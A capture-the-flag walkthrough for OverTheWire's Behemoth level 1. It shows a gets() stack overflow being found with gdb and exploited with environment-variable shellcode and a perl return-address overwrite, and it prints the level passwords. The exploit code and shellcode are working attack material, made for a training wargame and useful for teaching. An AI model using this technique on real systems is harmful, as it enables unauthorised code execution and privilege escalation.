







# Level 1 → Level 2

## Solution
```
ssh behemoth1@behemoth.labs.overthewire.org -p 2221
```
```
8JHFW9vGru
```
```
cd /behemoth ; ls -al
```
```
./behemoth1
```
```
13337
```



`strace` and `ltrace` gave no information, and `strings` search yielded nothing either.<br />
Therefore, we will look for existing functions and enter `gdb`:

```
nm ./behemoth1 | grep " T "
```



* Just `main` function.

```
gdb ./behemoth1
```
```
set disassembly-flavor intel
```
```
disas main
```



* `0x44` bytes on the stack
* `0x43` bytes for user input (until $bp)
* there is no limit with `gets`, so we can overrite the return-address.

Let's check this:

```
r <<< $(perl -e 'print "A"x(0x43), "BBBB", "CCCC"')
```



* `BBBB` - overrite the address of old $bp
* `CCCC` - overrite the address of the return value.

So, we'll put shellcode into a environment variable, and jump to it.

```
export SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
tempdir=$(mktemp -d)
```
```
cd $tempdir
```
```
vim getShellcode.c
```
```c
// getShellcode
#include <stdio.h>
#include <stdlib.h>

int main()
{
        char *shellcode = getenv("SHELLCODE");
        printf("SHELLCODE address: %p\nSHELLCODE=%s\n", shellcode, shellcode);
}
```
```
gcc -m32 getShellcode.c -o getShellcode
```
```
cd /behemoth/
```
```
$(echo $tempdir)/getShellcode
```



```
echo $tempdir/getShellcode
```



```python
# python:
SHELLCODE_ADDRESS = hex(0xffffd791 + 2*(len('/tmp/tmp.PonrsHdHZh/getShellcode') - len('./behemoth1')))
# SHELLCODE_ADDRESS == 0xffffd7bb
```
```
(perl -e 'print "A"x(0x43), "BBBB", "\xbb\xd7\xff\xff"' ; cat) | ./behemoth1
```
```
whoami
```
```
id
```
```
cat /etc/behemoth_pass/behemoth2
```



```
exit
```

```
rm -r $tempdir
```

## Password for the next level:
```
udgJeGECEW
```
